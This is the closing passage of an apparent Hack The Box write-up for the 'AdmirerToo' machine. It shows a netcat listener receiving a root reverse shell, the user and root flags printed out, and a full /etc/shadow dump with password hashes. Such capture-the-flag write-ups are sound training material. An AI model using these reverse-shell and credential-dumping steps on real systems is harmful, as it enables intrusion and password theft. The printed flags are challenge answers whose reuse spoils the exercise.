 Reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.137] 34928
bash: cannot set terminal process group (14620): Inappropriate ioctl for device
bash: no job control in this shell
root@admirertoo:/# id && cat ~/root.txt && hostname
id && cat ~/root.txt && hostname
uid=0(root) gid=0(root) groups=0(root)
54f21ac1641a6ec72be23bdfd993c1c1
admirertoo
root@admirertoo:/# 
```

# Trophy

>**User.txt**
>c171776485c8d1852be98f88edbba763

>**Root.txt**
>54f21ac1641a6ec72be23bdfd993c1c1

**/etc/shadow**

```bash
root@admirertoo:/# cat /etc/shadow
cat /etc/shadow
root:$6$eP5MVyB1lXtVQgzU$H4xJdGiHfSu9JmUR80juqHC5BAca79yir2Z6bipW8s.DowTuNRo82/CjN7EMBK8lczD1AMYxgKTIp79DjN2R31:18817:0:99999:7:::
daemon:*:18815:0:99999:7:::
bin:*:18815:0:99999:7:::
sys:*:18815:0:99999:7:::
sync:*:18815:0:99999:7:::
games:*:18815:0:99999:7:::
man:*:18815:0:99999:7:::
lp:*:18815:0:99999:7:::
mail:*:18815:0:99999:7:::
news:*:18815:0:99999:7:::
uucp:*:18815:0:99999:7:::
proxy:*:18815:0:99999:7:::
www-data:*:18815:0:99999:7:::
backup:*:18815:0:99999:7:::
list:*:18815:0:99999:7:::
irc:*:18815:0:99999:7:::
gnats:*:18815:0:99999:7:::
nobody:*:18815:0:99999:7:::
_apt:*:18815:0:99999:7:::
systemd-timesync:*:18815:0:99999:7:::
systemd-network:*:18815:0:99999:7:::
systemd-resolve:*:18815:0:99999:7:::
messagebus:*:18815:0:99999:7:::
systemd-coredump:!!:18815::::::
opentsdb:*:18815:0:99999:7:::
hbase:!:18815:0:99999:7:::
mysql:!:18816:0:99999:7:::
jennifer:$6$LWi8tlOmIOw6zGZa$A5h4DjTnRwW3GhZnA288bi4zKk892yRGon5kBhKao3biY8AWo3.qTFdlEIAPJ.ebKewW31JWbbXlpl/r.aLIC/:18817:0:99999:7:::
sshd:*:18816:0:99999:7:::
Debian-exim:!:18827:0:99999:7:::
devel:!:18829:0:99999:7:::
```